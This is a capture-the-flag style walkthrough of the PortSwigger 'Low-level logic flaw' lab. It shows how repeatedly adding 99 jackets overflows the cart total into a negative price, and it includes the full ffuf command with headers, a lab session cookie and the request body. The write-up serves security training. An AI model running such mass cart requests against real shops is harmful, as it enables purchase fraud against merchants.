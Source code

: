 Title: Low-level logic flaw
Level: Practitioner
Desc:  This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price. To solve the lab, buy a "Lightweight l33t leather jacket".
You can log in to your own account using the following credentials: wiener:peter 

# Walkthrough:

So I try to add 3 digit quantity of leather jacket and I get an error. It gives me idea to test if we can do kind of "buffer overflow/integer overflow".
![image](https://github.com/user-attachments/assets/0ad1bc34-6f8d-4dd6-8008-b2a3448e63e2)

So I go to the intruder and I try to send many requests with adding 99 leather jackets.

![image](https://github.com/user-attachments/assets/548c6a95-bffc-457b-a723-5244c2b10b51)

![image](https://github.com/user-attachments/assets/0c739be5-c9f1-4267-9b16-eb8da71b9fb1)


After this attack in my basket I can see, that my total price increase and suddely it becomes negative and then it goes towards 0. So I need to add proper number of jackets to be between 0 and 100$.

![image](https://github.com/user-attachments/assets/f20d3ced-d72e-4124-b59d-6908ee4edb9e)

![image](https://github.com/user-attachments/assets/825e9880-4aac-40a0-841c-1aba27fefa02)

![image](https://github.com/user-attachments/assets/8ab62c6d-32af-4302-bf1e-3d2818140c3e)

![image](https://github.com/user-attachments/assets/c6a47d37-e22b-4f57-a6fe-0104555607d6)

We did it!

payload used: 

```
seq 1 321 > dummy.txt
```

```
ffuf -u https://0ac20098047e5f6780c2d55400800054.web-security-academy.net/cart \
  -X POST \
  -H "Host: 0ac20098047e5f6780c2d55400800054.web-security-academy.net" \
  -H "Cookie: session=E8zsSiNRpn9sDEEod8dihryMut9IuGpo" \
  -H "Cache-Control: max-age=0" \
  -H "Sec-Ch-Ua: \"Not;A=Brand\";v=\"24\", \"Chromium\";v=\"128\"" \
  -H "Sec-Ch-Ua-Mobile: ?0" \
  -H "Sec-Ch-Ua-Platform: \"Linux\"" \
  -H "Accept-Language: en-US,en;q=0.9" \
  -H "Upgrade-Insecure-Requests: 1" \
  -H "Origin: https://0ac20098047e5f6780c2d55400800054.web-security-academy.net" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36" \
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" \
  -H "Sec-Fetch-Site: same-origin" \
  -H "Sec-Fetch-Mode: navigate" \
  -H "Sec-Fetch-User: ?1" \
  -H "Sec-Fetch-Dest: document" \
  -H "Referer: https://0ac20098047e5f6780c2d55400800054.web-security-academy.net/product?productId=1" \
  -H "Accept-Encoding: gzip, deflate, br" \
  -H "Priority: u=0, i,FUZZ" \
  -d "productId=1&redir=PRODUCT&quantity=99" \
  -w dummy.txt \
  -t 1

```
